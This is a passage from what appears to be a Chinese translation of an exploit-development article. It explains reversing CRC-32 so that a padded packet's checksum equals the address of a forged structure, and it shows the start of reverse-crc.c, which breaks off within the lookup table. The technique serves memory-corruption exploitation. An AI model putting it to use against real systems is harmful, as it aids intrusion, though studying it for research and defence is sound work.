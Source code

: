 

### 4.3 - Reversing CRC

像前面所说的一样，我们需要用数据填充数据包使计算出来的 CRC 恰好是我们伪造的结构体的地址。幸运的是，CRC 是可逆的，幸好有 [[6]](https://blog.affien.com/archives/2005/07/15/reversing-crc/
) 提出的方法，我们只需要在数据包打 4 字节补丁就可以使计算得出的 CRC 恰好是我们选择的任何值。源码 reverse-crc.c，求出一个事先填充缓冲区的 4 字节补丁，使计算得出的 CRC 等于 0xdeadbeef。

```c
---[ reverse-crc.c ]---
#include <stdio.h>
#include <stdint.h>

#define CRC(crc, ch)	 (crc = (crc >> 8) ^ crctab[(crc ^ (ch)) & 0xff])

/* generated using the AUTODIN II polynomial
 *	x^32 + x^26 + x^23 + x^22 + x^16 +
 *	x^12 + x^11 + x^10 + x^8 + x^7 + x^5 + x^4 + x^2 + x^1 + 1
 */
static const uint32_t crctab[256] = {
	0x00000000, 0x77073096, 0xee0e612c, 0x990951ba,
	0x076dc419, 0x706af48f, 0xe963a535, 0x9e6495a3,
	0x0edb8832, 0x79dcb8a4, 0xe0d5e91e, 0x97d2d988,
	0x09b64c2b, 0x7eb17cbd, 0xe7b82d07, 0x90bf1d91,
	0x1db71064, 0x6ab020f2, 0xf3b97148, 0x84be41de,
	0x1adad47d, 0x6ddde4eb, 0xf4d4b551, 0x83d385c7,
	0x136c9856, 0x646ba8c0, 0xfd62f97a, 0x8a65c9ec,
	0x14015c4f, 0x63066cd9, 0xfa0f3d63, 0x8d080df5,
	0x3b6e20c8, 0x4c69105e, 0xd56041e4, 0xa2677172,
	0x3c03e4d1, 0x4b04d447, 0xd20d85fd, 0xa50ab56b,
	0x35b5a8fa, 0x42b2986c, 0xdbbbc9d6, 0xacbcf940,
	0x32d86ce3, 0x45df5c75, 0xdcd60dcf, 0xabd13d59,
	0x26d930ac, 0x51de003a, 0xc8d75180, 0xbfd06116,
	0x21b4f4b5, 0x56b3c423, 0xcfba9599, 0xb8bda50f,
	0x2802b89e, 0x5f058808, 0xc60cd9b2, 0xb10be924,
	0x2f6f7c87, 0x58684c11, 0xc1611dab, 0xb6662d3d,
	0x76dc4190, 0x01db7106, 0x98d220bc, 0xefd5102a,
	0x71b18589, 0x06b6b51f, 0x9fbfe4a5, 0xe8b8d433,
	0x7807c9a2, 0x0f00f934, 0x9609a88e, 0xe10e9818,
	0x7f6a0dbb, 0x086d3d2d, 0x91646c97, 0xe6635c01,
	0x6b6b51f4, 0x1c6c6162, 0x856530d8, 0xf262004e,
	0x6c0695ed, 0x1b01a57b, 0x8208f4c1, 0xf50fc457,
	0x65b0d9c6, 0x12b7e950, 0x8bbeb8ea, 0xfcb9887c,
	0x62dd1ddf, 0x15da2d49, 0x8cd37cf3, 0xfbd44c65,
	0x4db26158, 0x3ab551ce, 0xa3bc0074, 0xd4bb30e2,
	0x4adfa541, 0x3dd895d7, 0xa4d1c46d, 0xd3d6f4fb,
	0x4369e96a, 0x346ed9fc, 0xad678846, 0xda60b8d0,
	0x44042d73, 0x33031de5, 0xaa0a4c5f, 0xdd0d7cc9,
	0x5005713c, 0x270241aa, 0xbe0b1010, 0xc90c2086,
	0x5768b525, 0x206f85b3, 0xb966d409, 0xce61e49f,
	0x5edef90e, 0x29d9c998, 0xb0d09822, 0xc7d7a8b4,
	0x59b33d17, 0x2eb40d81, 0xb7bd5c3b, 0xc0ba6cad,
	0xedb88320, 0x9abfb3b6, 0x03b6e20c, 0x74b1d29a,
	0xead54739, 0x9dd277af, 0x04db2615, 0x73dc1683,
	0xe3630b12, 0x94643b84, 0x0d6d6a3e, 0x7a6a5aa8,
	0xe40ecf0b, 0x9309ff9d, 0x0a00ae27, 0x7d079eb1,
	0xf00f9344, 0x8708a3d2, 0x1e01f268, 0x6906c2fe,
	0xf762575d, 0x806567cb, 0x196c3671, 0x6e6b06e7,
	0xfed41b76, 0x89d32be0, 0x10da7a5a, 0x67dd4acc,
	0xf9b9df6f, 0x8ebeeff9, 0x17b7be43, 0x60b08ed5,
	0xd6d6a3e8, 0xa1d1937e, 0x38d8c2c4, 0x4fdff252,
	0xd1bb67f1, 0xa6bc5767, 0x3fb506dd, 0x48b2364b,
	0xd80d2bda, 0xaf0a1b4c, 0x36034af6, 0x41047a60,
	0xdf60efc3, 0xa867df55, 0x316e8eef, 0x4669be79,
```